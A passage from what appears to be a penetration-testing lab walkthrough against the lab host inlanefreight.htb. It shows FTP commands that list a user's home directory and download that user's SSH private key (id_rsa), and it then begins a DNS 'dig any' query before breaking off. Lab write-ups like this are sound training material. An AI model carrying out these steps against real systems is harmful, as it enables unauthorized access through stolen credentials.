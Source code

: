 ```
ftp>
```

There seems to be nothing in the files share. However....

```
ftp> ls -la
229 Entering Extended Passive Mode (|||36532|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history
-rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout
-rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc
drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache
-rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile
drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh
-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
226 Transfer complete
ftp>
```

If we use the `ls -la` command to list hidden items, we can see the the ftp servers root directory is the home directory for the Ceil user. This is a big security no no. Since we have access to the home directory, we can read the private key contents in `.ssh`.

```
ftp> cd .ssh
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||63257|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
226 Transfer complete
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||61407|)
150 Opening BINARY mode data connection for id_rsa (3381 bytes)
100% |***************************************************************************|  3381       59.70 MiB/s    00:00 ETA
226 Transfer complete
3381 bytes received in 00:00 (45.46 KiB/s)
ftp>
```

So we can now login with ssh. But before we do that, I do want to test the dns service as well, as the machine is a dns server.

```
$ dig any inlanefreight.htb @10.129.117.172

; <<>> DiG 9.18.1-1ubuntu1.3-Ubuntu <<>> any inlanefreight.htb @10.129.117.172
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31786
;; flags: qr aa rd; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: b4610e648a5617eb010000006751c0a4e3ea3e5b7d4b1042 (good)
;; QUESTION SECTION:
;inlanefreight.htb.             IN      ANY

;; ANSWER SECTION:
```